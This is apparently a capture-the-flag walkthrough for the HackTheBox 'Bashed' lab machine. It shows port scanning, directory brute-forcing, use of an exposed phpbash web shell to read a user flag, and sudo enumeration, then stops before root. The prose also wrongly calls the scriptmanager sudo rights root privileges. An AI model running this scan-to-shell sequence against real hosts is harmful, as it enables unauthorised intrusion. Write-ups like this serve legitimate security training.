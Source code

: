 ## Default Information
IP Address: 10.10.10.68\
OS: Linux


## Enumeration
First, let us add the the IP address and host to our ```/etc/hosts``` file

```
10.10.10.68    bashed.htb
```

Next, let us do a masscan to identify the ports of interest

```
┌──(kali㉿kali)-[~]
└─$ sudo masscan -p1-65535,U:1-65535 10.10.10.68 --rate=1000 -e tun0

[sudo] password for kali: 
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-09-28 13:30:32 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 80/tcp on 10.10.10.68 
```

Using the ports obtained from masscan, we will then run a scan using nmap to enumerate the services operating behind each port. For this machine, only port 80 is open, which
means that only web service is available on this machine.

| Port Number | Service | Version | State |
|-----|------------------|----------------------|----------------------|
| 80	| http | Apache httpd 2.4.18 ((Ubuntu)) | Open |

## Discovery

First, we will use Gobuster to find the endpoints that are accessible from http://bashed.htb

```
──(kali㉿kali)-[~]
└─$ gobuster dir -u http://bashed.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -k -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://bashed.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2021/09/28 09:31:43 Starting gobuster in directory enumeration mode
===============================================================
http://bashed.htb/uploads              (Status: 301) [Size: 310] [--> http://bashed.htb/uploads/]
http://bashed.htb/images               (Status: 301) [Size: 309] [--> http://bashed.htb/images/] 
http://bashed.htb/php                  (Status: 301) [Size: 306] [--> http://bashed.htb/php/] 
http://bashed.htb/css                  (Status: 301) [Size: 306] [--> http://bashed.htb/css/] 
http://bashed.htb/dev                  (Status: 301) [Size: 306] [--> http://bashed.htb/dev/]  
http://bashed.htb/js                   (Status: 301) [Size: 305] [--> http://bashed.htb/js/] 
http://bashed.htb/fonts                (Status: 301) [Size: 308] [--> http://bashed.htb/fonts/]  
http://bashed.htb/server-status        (Status: 403) [Size: 298]
```

Next, we will try to enumerate for VHosts using Gobuster. However, there doesn't seem to have any interesting outputs. 

Navigating to http;//bashed.htb/dev, we notice that there are a few php files that can be accessed. Clicking on the ```phpbash.php``` file, we realize that we have spawned a web shell

![Spawning web shell](https://github.com/joelczk/writeups/blob/main/HTB/Images/Bashed/web_shell.PNG)

## Obtaining user flag

Using the web shell that we obtained, we will now get our user flag

```
www-data@bashed:/home# cd /home
www-data@bashed:/home# ls
arrexel
scriptmanager
www-data@bashed:/home# ls -la arrexel
total 36
drwxr-xr-x 4 arrexel arrexel 4096 Dec 4 2017 .
drwxr-xr-x 4 root root 4096 Dec 4 2017 ..
-rw------- 1 arrexel arrexel 1 Dec 23 2017 .bash_history
-rw-r--r-- 1 arrexel arrexel 220 Dec 4 2017 .bash_logout
-rw-r--r-- 1 arrexel arrexel 3786 Dec 4 2017 .bashrc
drwx------ 2 arrexel arrexel 4096 Dec 4 2017 .cache
drwxrwxr-x 2 arrexel arrexel 4096 Dec 4 2017 .nano
-rw-r--r-- 1 arrexel arrexel 655 Dec 4 2017 .profile
-rw-r--r-- 1 arrexel arrexel 0 Dec 4 2017 .sudo_as_admin_successful
-r--r--r-- 1 arrexel arrexel 33 Dec 4 2017 user.txt
www-data@bashed:/home# cd arrexel
www-data@bashed:/home/arrexel# cat user.txt
<Redacted user flag>
```

## Obtaining root flag

Executing ```sudo -l```, we realize that we can execute commands as the user ```scriptmanager```, but with root privileges

```

www-data@bashed:/var/www/html/uploads# sudo -l
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

